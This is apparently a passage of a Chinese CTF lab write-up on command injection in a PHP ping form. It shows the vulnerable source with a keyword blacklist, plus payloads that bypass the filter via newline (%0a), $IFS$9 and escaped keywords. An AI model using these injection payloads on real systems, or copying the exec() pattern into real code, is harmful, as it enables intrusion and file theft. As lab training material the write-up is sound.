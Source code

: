 查看当前目录  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YxCBEqEyrw1oX6Qq34T6JmDHYym3AlkYC91vkcXwtNCsBLNm9YQoQO7uzcRFK3Xc4IgGFQclIPPIibQojdUvDicw/640?wx_fmt=png&from=appmsg "")  
  
执行以下命令  
```
127.0.0.1;cat flag_4351260182213.php

```  
  
得到flag  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YxCBEqEyrw1oX6Qq34T6JmDHYym3AlkYliatGsMlG7bC4cUM3YIuiam2bYYLtVicbhKQic74k10WYSun25jicoOjYicw/640?wx_fmt=png&from=appmsg "")  
### 综合过滤练习  
  
源码审计  
```
<?php
$res = FALSE;
if (isset($_GET['ip']) && $_GET['ip']) {
    $ip = $_GET['ip'];
    $m = [];
    if (!preg_match_all("/(\||&|;| |\/|cat|flag|ctfhub)/", $ip, $m)) {  //过滤了 | & ; 空格 / cat flag ctfhub
        $cmd = "ping -c 4 {$ip}";
        exec($cmd, $res);
    } else {
        $res = $m;
    }
}
?>

```  
  
利用换行符**%0a绕过**查看当前目录  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YxCBEqEyrw1oX6Qq34T6JmDHYym3AlkYsQLZw4ZKvNmXxib7iavTkkhZ5KZuwLgtI2G7sLr0gd0oMmZ3ZibCr5oIQ/640?wx_fmt=png&from=appmsg "")  
  
查看根目录，没有有用信息，flag应该存在**flag_is_here**  
目录下  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YxCBEqEyrw1oX6Qq34T6JmDHYym3AlkYdRlA70s1sc6X2pljSpXMjicQf8AD4GKB3zDqBfkXogBsYG0FBiaKnibNw/640?wx_fmt=png&from=appmsg "")  
  
执行以下命令  
```
?ip=127.0.0.1%0acd$IFS$9f\lag_is_here%0als         //flag被过滤，需要绕过

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YxCBEqEyrw1oX6Qq34T6JmDHYym3AlkYsXAcHYBxibaI0yIcz4QldhyZzuDDJSCpIa4uCSr7xlRGg7vznNrgPLg/640?wx_fmt=png&from=appmsg "")  
  
查看该flag  
```
?ip=127.0.0.1%0acd$IFS$9f\lag_is_here%0anl$IFS$9f\lag_172132798218075.php  //绕过cat

```  
  